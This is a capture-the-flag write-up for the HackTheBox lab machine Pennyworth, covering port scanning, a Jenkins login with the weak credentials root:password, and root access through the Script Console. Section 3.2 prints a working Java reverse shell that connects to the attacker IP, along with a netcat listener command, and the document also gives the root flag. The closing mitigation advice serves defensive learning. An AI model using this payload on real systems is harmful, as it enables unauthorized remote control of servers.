


# Pennyworth - HackTheBox Writeup

**Date:** April 13, 2026
**OS:** Linux
**IP Address:** 10.129.26.35
**Difficulty:** Very Easy (Starting Point)

---

# 1. Executive Summary

This writeup documents the exploitation process for the HackTheBox machine **Pennyworth**. 

*   **Initial Access & Privilege Escalation:** Access was achieved by discovering a Jenkins instance running on port 8080. By authenticating with weak credentials (`root:password`), access to the Jenkins Script Console was obtained. A Java reverse shell was executed, granting immediate root access since the Jenkins service was running as the root user.
*   **Key Learning Points:** 
    * Securing Jenkins instances with strong passwords and role-based access control.
    * The dangers of running web services as the `root` system user, which negates the need for privilege escalation.

---

# 2. Reconnaissance & Enumeration

## 2.1. Nmap Scan

| Port | Service | Version | Notes |
| :--- | :--- | :--- | :--- |
| 8080/tcp | HTTP | Jetty 9.4.39.v20210325 | Jenkins |

**Nmap Command:**
```bash
nmap -p- --min-rate=5000 -oN nmap/Pennyworth-allports 10.129.26.35
nmap --privileged -sC -sV -p 8080 -oN nmap/Pennyworth 10.129.26.35
```

## 2.2. Web Enumeration

Visiting `http://10.129.26.35:8080/` reveals a Jenkins web interface.

---

# 3. Initial Access & Privilege Escalation (Root Flag)

## 3.1. Vulnerability Analysis
*   **Vulnerability:** Weak Credentials & Remote Code Execution (RCE) via Jenkins Script Console.
*   **Vector:** The Jenkins instance was secured with a very weak password (`password`) for the `root` account. Once authenticated, the built-in Script Console (`/script`) allows administrators to run arbitrary Groovy/Java code on the server.

## 3.2. Exploitation Path

1.  **Authentication:** Logged into the Jenkins dashboard using the discovered credentials: `root:password`. 

    

2.  **Script Console Access:** Navigated to `http://10.129.26.35:8080/script`. This console allows the execution of arbitrary Groovy and Java scripts.

    

3.  **Reverse Shell Execution:** Set up a netcat listener on the attack machine (`nc -lnvp 8000`) and executed the following Java reverse shell payload in the Script Console to connect back to the attacker IP (`10.10.14.240`):

**Payload:**
```java
String host="10.10.14.240";
int port=8000;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

4.  **System Access:** The payload successfully connected back, yielding a reverse shell. 
    Checking the user context or navigating the filesystem revealed that the shell was already running as the system `root` user, skipping any need for a separate privilege escalation step.

**Root Flag:**
```bash
cat /root/flag.txt
# 9cdfb439c7876e703e307864c9167a15
```

---

# 4. Credentials & Loot

| Username | Password / Hash | Source |
| :--- | :--- | :--- |
| root | password | Guessed / Default for Jenkins |

---

# 5. Recommendations & Mitigation
1. **Weak Credentials:** Immediately change the Jenkins `root` user password to a strong, complex passphrase.
2. **Principle of Least Privilege:** Do not run the Jenkins service as the `root` system user. Run it as a dedicated, unprivileged user (e.g., `jenkins`) to limit the blast radius if the application is compromised.
3. **Restrict Script Console:** Limit access to the Jenkins Script Console to strictly authorized administrators, or restrict it entirely.